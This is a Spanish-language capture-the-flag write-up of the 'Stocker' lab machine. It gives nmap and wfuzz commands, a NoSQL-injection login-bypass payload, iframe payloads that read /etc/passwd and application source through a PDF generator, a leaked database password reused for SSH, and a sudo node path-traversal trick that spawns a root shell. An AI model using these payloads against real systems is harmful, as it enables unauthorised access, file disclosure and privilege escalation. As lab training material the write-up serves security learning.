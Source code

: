 - Tags: #linux #nosql #htmlinjection #nodejs #pathtraversal #express

------------
## Enumeración

- Identificación de SO:
  
```bash
ping -c 1 10.10.11.196
```
![Pastedimage20240831133115.png](/Imagenes/Stocker/Pastedimage20240831133115.png)

Como vemos según lo que nos indica el `ttl` es una maquina `Linux`

- Identificación de puertos abiertos en la maquina:
  
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.196 -oG allPorts
```

- Identificación de servicios corriendo en los puertos abiertos:
```bash
nmap -p22,80 -sCV 10.10.11.196 -oN targeted
```

![Pastedimage20240831133708.png](/Imagenes/Stocker/Pastedimage20240831133708.png)

- Al ver que hay un puerto 80 con el servicio `http` corriendo por debajo podemos lanzar el siguiente script de nmap:

```bash
nmap -p80 --script="http-enum" 10.10.11.196 -oN webScan
```

- Para ver información básica sobre la web que hay corriendo por el servidor:

```bash
whatweb http://stocker.htb/
```

![Pastedimage20240831134053.png](Imagenes/Stocker/Pastedimage20240831134053.png)

-----------------
## Fuzzing

- Miramos si hay subdominios:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.stocker.htb" http://stocker.htb/
```

![Pastedimage20240831134343.png](/Imagenes/Stocker/Pastedimage20240831134343.png)

Como hemos visto hemos encontrado un subdominio en el que vamos a mirar que es lo que hay dentro de el y haremos un poco de enumeración.

![Pastedimage20240831134725.png](/Imagenes/Stocker/Pastedimage20240831134725.png)

-------
## Explotación

Como podemos observar el nuevo `subdominio` es un panel de login, podemos probar varios tipos de técnicas para poder bypassearlo o identificación de vulnerabilidades como lo siguiente:

- Probar passwords por defecto
- SqlIjection
- NoSQLInjection

**De primeras lo que tenemos que hacer al ver `Express` & `NodeJs` es interceptar la petición con `burpsuite` y ver si podemos mandar peticiones en `JSON`**

`Cuando una aplicacion esta construida con NodeJs y Express normalmente estan construidas sobre bases de datos diferentes a MySql, como por ejemplo PostgreSQL y MongoDB, estas dos son bases de datos no relacionales, por lo que podemos hacer Inyecciones SQL para bypassear el panel de Login`

- Antes tenemos que cambiar el `Conten-Type:` `application/json`
- Payload:
  
```bash
{"username": {"$ne": null}, "password": {"$ne": null} }
```

Una vez que hemos bypasseado el panel de Login empezamos a indagar un poco en la pagina web para encontrar vulnerabilidades que podemos encontrar.

---------------
## HTML INJECTION

**A la hora de crear un pedido nos crea un archivo pdf, si nosotros lo capturamos con Burpsuite a la hora de la creación del archivo pdf podemos comprobar que podemos modificar los elementos que hay dentro del pdf, dentro de todos estos elementos el que nos importa a nosotros es el `titulo`, el que se muestra por pantalla básicamente.**

**Por lo general los generadores de PDF pueden renderizar etiquetas html, lo que nos abre una posibilidad de hacer una inyeccion html.**
**Hemos intentado inyectar unas etiquetas `<script>` dentro del pdf, al darle a recargar el servidor devuelve un error interno, lo que significa que intento representar las etiquetas pero fallo.**

**Teniendo en cuenta la información anterior, es posible que podamos cargar el generador de PDF y mostrar archivos del sistema mediante `iframes`. Considere la siguiente carga útil HTML.**

- Payload:
  
```bash
<iframe src='file:///etc/passwd' width='1000' height='1000'></iframe>
```

`iframes, o Inline Frames, son elementos HTML que pueden cargar otra página HTML dentro de la misma documento. El atributo src es el origen del contenido del servidor externo o interno.`

- Ejemplo practico en `Burpsuite`:

![Pastedimage20240831141423.png](/Imagenes/Stocker/Pastedimage20240831141423.png)

Al recargar veremos el documento pdf generado...

![Pastedimage20240831141651.png](/Imagenes/Stocker/Pastedimage20240831141651.png)

Como vemos tenemos un LFI en el que podemos listar archivos internos del servidor, lo próximo que tendríamos que hacer es buscar algún archivo que nos proporcione credenciales como algún `id_rsa` o algún archivo de configuración del servidor.

---------------
## Wildcard Injection

**Sin embargo, nos encontramos con un problema, que es que no sabemos dónde está la aplicación de desarrollo situado. Un truco fácil que podemos usar para determinar potencialmente esta ubicación es enviar JSON con formato incorrecto en uno de los puntos de conexión de la aplicación para ver si produce un error. Usemos el punto de conexión de compra como lo hicimos previamente. Para hacer esto podemos atrapar otra solicitud en Burp y quitar uno de los corchetes }. Después Al quitar el corchete y enviar la solicitud, obtenemos el siguiente mensaje de error.**

![Pastedimage20240831142307.png](/Imagenes/Stocker/Pastedimage20240831142307.png)

**A partir del error, podemos ver que la aplicación está alojada en la carpeta `/var/www/dev/` y dado que se trata de un `NodeJS` podemos intentar leer varios nombres de archivo predeterminados para encontrar la función principal de la aplicación aplicación. Por lo general, esto se denomina `index.js` o `main.js` o incluso `server.js`.**

- Hacemos lo mismo con `Burpsuite` aplicando otro payload:
  
```bash
<iframe src='file:///var/www/dev/index.js' width='1000' height='1000'></iframe>
```

- Nos devuelve el siguiente archivo de configuracion del servidor:
  
```bash
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?
authSource=admin&w=1";
```

**Como hemos visto anteriormente el usuario era `angoose` y la password como vemos es `IHeardPassphrasesArePrettySecure`**

------------
## Conexión SSH

```bash
ssh agoose@10.10.11.196
```

----------
## Escalada de Privilegios

```bash
sudo -l
```

![Pastedimage20240831142949.png](/Imagenes/Stocker/Pastedimage20240831142949.png)

**Lo que nos esta diciendo es que el usuario angoose puede ejecutar node como `sudo` ejecutando un script de la ruta `/usr/local/scripts/*.js`**

Por lo que podemos hacer lo siguiente, con el siguiente `payload` podemos ejecutar node e iniciar una shell como `root`:

```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Como solo podemos ejecutar scripts de la ruta `/usr/local/scripts` podemos probar a en el directorio `/tmp` crear el siguiente script y ejecutar el siguiente comando:

- shell.js

```bash
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
- Comando:

```bash
sudo node /usr/local/scripts/credentials.js/../../../../../../tmp/shell.js
```

**Lo que estamos realizando es un `path traversal` y estamos bypasseando que solo se puedan ejecutar scripts de dicha ruta.**
